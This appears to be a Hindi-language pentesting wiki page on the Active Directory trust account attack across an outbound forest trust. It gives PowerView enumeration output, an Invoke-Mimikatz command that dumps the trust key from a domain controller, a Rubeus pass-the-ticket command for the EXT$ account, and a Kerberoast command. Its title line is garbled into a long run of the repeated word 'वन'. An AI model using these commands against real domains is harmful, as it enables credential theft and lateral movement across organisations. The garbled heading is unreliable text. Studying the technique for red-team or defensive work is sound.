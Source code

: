 # बाहरी वन वे वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन वन व
```powershell
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=DOMAIN,DC=LOCAL
MemberDomain            : root.io
MemberName              : S-1-5-21-1028541967-2937615241-1935644758-1115
MemberDistinguishedName : CN=S-1-5-21-1028541967-2937615241-1935644758-1115,CN=ForeignSecurityPrincipals,DC=DOMAIN,DC=LOCAL
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```
## विश्वास खाता हमला

एक सुरक्षा दुरुपयोग उत्पन्न होता है जब दो डोमेन के बीच विश्वास संबंध स्थापित किया जाता है, जिन्हें यहाँ डोमेन **A** और डोमेन **B** के रूप में पहचाना गया है, जहां डोमेन **B** अपना विश्वास डोमेन **A** के प्रति बढ़ाता है। इस सेटअप में, डोमेन **A** में डोमेन **B** के लिए एक विशेष खाता बनाया जाता है, जो दोनों डोमेन के बीच प्रमाणीकरण प्रक्रिया में महत्वपूर्ण भूमिका निभाता है। इस खाते को, जो डोमेन **B** से संबंधित है, दोनों डोमेन के बीच सेवाओं तक पहुँचने के लिए टिकटों को एन्क्रिप्ट करने के लिए उपयोग किया जाता है।

यहाँ महत्वपूर्ण पहलू समझना है कि इस विशेष खाते का पासवर्ड और हैश डोमेन **A** में एक डोमेन कंट्रोलर से एक कमांड लाइन उपकरण का उपयोग करके निकाला जा सकता है। इस कार्रवाई को करने के लिए कमांड है:
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```
यह निकासी संभव है क्योंकि खाता, जिसे उसके नाम के बाद **$** के साथ पहचाना गया है, सक्रिय है और डोमेन **A** के "Domain Users" समूह का हिस्सा है, इसलिए इस समूह से संबंधित अनुमतियों को वारिसत करता है। इससे व्यक्तियों को इस खाते के प्रमाणों का उपयोग करके डोमेन **A** के खिलाफ प्रमाणीकरण करने की अनुमति होती है।

**चेतावनी:** डोमेन **A** में एक उपयोगकर्ता के रूप में एक कदम प्राप्त करने के लिए इस स्थिति का उपयोग करना संभव है, हालांकि इस एक्सेस से सीमित अनुमतियों के साथ। फिर भी, यह एक्सेस डोमेन **A** पर जांच करने के लिए पर्याप्त है।

जहां `ext.local` विश्वसनीय डोमेन है और `root.local` विश्वसनीय डोमेन है, वहां `root.local` में `EXT$` नाम का एक उपयोगकर्ता खाता बनाया जाएगा। विशेष उपकरणों के माध्यम से, Kerberos विश्वास कुंजियों को डंप करना संभव है, जिससे `root.local` में `EXT$` के प्रमाणों को प्रकट किया जा सकता है। इसे प्राप्त करने के लिए यह आदेश है:
```bash
lsadump::trust /patch
```
निम्नलिखित के बाद, कोई भी दूसरा उपकरण कमांड का उपयोग करके `root.local` में `root.local\EXT$` के रूप में प्रमाणीकरण के लिए निकाला गया RC4 कुंजी का उपयोग कर सकता है:
```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```
यह प्रमाणीकरण चरण `root.local` के भीतर सेवाओं को जांचने और उन्हें उत्पीड़ित करने की संभावना खोलता है, जैसे कि निम्नलिखित का उपयोग करके सेवा खाता क्रेडेंशियल को निकालने के लिए एक Kerberoast हमला करना:
```bash
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```
### साफ पाठ्य विश्वसनीयता पासवर्ड जुटाना

पिछले फ्लो में विश्वसनीयता हैश का उपयोग किया गया था बजाय **साफ पाठ्य विश्वसनीयता पासवर्ड** का (जो **mimikatz द्वारा भी डंप किया गया था**).

साफ पाठ्य पासवर्ड को हेक्साडेसिमल से परिवर्तित करके और नल बाइट्स '\x00' को हटाकर प्राप्त किया जा सकता है:

![](<../../.gitbook/assets/image (2) (1) (2) (1).png>)

कभी-कभी विश्वास संबंध बनाते समय, एक पासवर्ड को यूजर द्वारा विश्वास के लिए टाइप किया जाना चाहिए। इस प्रदर्शन में, कुंजी मूल विश्वास पासवर्ड है और इसलिए मानव द्वारा पढ़ने योग्य है। जैसे ही कुंजी साइकिल होती है (30 दिन), साफ पाठ्य मानव-पठनीय नहीं रहेगा लेकिन तकनीकी रूप से उपयोगी रहेगा।

साफ पाठ्य पासवर्ड का उपयोग करके विश्वास खाता के रूप में नियमित प्रमाणीकरण करने के लिए किया जा सकता है, विश्वास खाते के कर्बेरोस गुप्त कुंजी का उपयोग करके एक टीजीटी का अनुरोध करने का एक विकल्प। यहाँ, ext.local से root.local का क्वेरी करके Domain Admins के सदस्यों के लिए:

![](<../../.gitbook/assets/image (1) (1) (1) (2).png>)

## संदर्भ

* [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)
